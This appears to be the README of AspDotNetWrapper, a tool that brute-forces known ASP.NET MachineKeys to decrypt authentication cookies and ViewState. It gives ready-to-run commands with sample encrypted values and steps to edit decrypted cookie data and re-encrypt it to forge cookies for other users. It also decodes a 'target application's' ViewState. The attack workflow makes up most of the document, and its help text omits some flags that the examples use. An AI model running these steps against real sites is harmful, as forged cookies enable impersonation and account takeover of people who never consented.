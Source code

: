 # AspDotNetWrapper

The tool used to encrypt/decrypt .aspnet.applicaitoncookie and .ASPXAUTH cookie and ViewState against list of MachineKeys.

### Usage
```
AspDotNetWrapper.exe --help

AspDotNetWrapper 1.0.0.0
Copyright ©  2018

  -r, --keypath                Machine keys file path.
  -c, --cookie                 Cookie value to decrypt.
  -d, --decrypt                (Default: false) To decrypt the cookie.
  -f, --decryptDataFilePath    file path where the decrypted information stored
  -p, --purpose                purpose
  -a, --valalgo                Validation algorithm
  -b, --decalgo                Decryption algorithm
  --help                       Display this help screen.
  --version                    Display version information.
```

#
#
### To decrypt asp.net.applicationcookie (Owin auth cookie)

Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata 195A989biBjM_NAqqiie5DnHKfcwrNGDuT-Suumqmw6oVyLSsjCFx9Emhf034TDjcuC9mfwNbi6yD-1QlbhcUAgdTOwY0o0sNbg7bJrNyUEf6ZoyYh2QAZHhmxteN_cMQJI7C1WOBEl0ocihUVhKghdxegwRURcYx2h1uMbijX3jsEf59L8Uco_PpfFLN--RtcLTKUvtZd0fH5Sgc1JQmsvTBr7IJ4Ua01I8uyEPYNXZGYvssSzJ8YN6MXioky3WBXv9NGNxDpgTpIPWGetgZ0iOSaTmqPr6sPu4ndesUV4SKsBroIP6Y38rr8LwFCZBKDK5dli4kKwmy9xeM02qshCoLf8ppeOiK2aMLfb9jqkraoss2BflD3hpDdrYHVGH7ryTWQh4HABYDC7OOMgdld3WJ1CUfJ9pmr0qnVFD4Gc --decrypt --purpose=owin.cookie  --valalgo=hmacsha512 --decalgo=aes

--encrypteddata : value to decrypt using tool
--decrypt : If you add this argumenet the tools try to decrypt the cookie
--purpose: owin.cookie to decrypt the .aspnet.applicationcookie cookie
--valalgo: Validation algorithm
--decalgo: Decryption algorithm
```

### To decrypt .aspxauth (Forms authentication cookie)

Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata CA387A93AD4214F356ED05C26C1E4D80F0804CD526766778B62D4F9213B87B5369755F95008A34644B9CA6B7646E191958A1AE14DB398AB943D3DB042EDA06EC4B5BEA9E3EB60E9877646AD4A50BE9435A2D3B4B3005836CBBBDA64A5E8738511211AA1F --decrypt --purpose=aspxauth --valalgo=sha1 --decalgo=aes

--encrypteddata : value to decrypt using tool
--decrypt : If you add this argumenet the tools try to decrypt the cookie
--purpose: aspxauth to decrypt the .ASPXAUTH cookie
--valalgo: Validation algorithm
--decalgo: Decryption algorithm
````
#
#
#
#### After perform decryption for .aspxauth and .aspnet.applicationcookie value, The tool was stored decryption information in "DecryptText.txt". 

#### In order to re-generate cookies for other users, It is required to update the cookie information in "DecryptText.txt" file and then run the encryption utility of the tool as shown below:
#
Sample Command
```console
AspDotNetWrapper.exe --decryptDataFilePath DecryptedText.txt

--decryptDataFilePath: Decrypted data path, which contain the plaintext information of user cookie
````
#
#
### To decode ViewState
Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --legacy --macdecode

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
````

#
#
### To Decrypt ViewState
Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata Ve3mZjZwbMRyGTts1EV0F7Hp4eAx11qmXi45oAE7/bDDmA55+Kf9+WWACzUQtly4pRQYkMgmZJnJIDCQQhLNCWaHKbgY7dOiHn8JE7Yx19xvVhYyoqnC8ITLvHiiuJl8+LFmPJwS7ip3vAe+o7mxg2H15VUW5LO56AiTErT7UUw4Au002vflZUF6h/Fx/TJAYciUlZ8CmNW9/GIoPAC9tQ4SVhGD7is8Gu8DiUJE0AjHTLQFcy9vgSk1ovpy4gn9gl98mNVk17uCI7LLYPkvO3Xuix2WTogyqaPQOn7gJz7Say/aqqhmW90LdGo0qeldEUvMGw== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata : __VIEWSTATE parameter value of the target application
--IISDirPath : TemplateSourceDirectory
--TargetPagePath : Aspx page path
````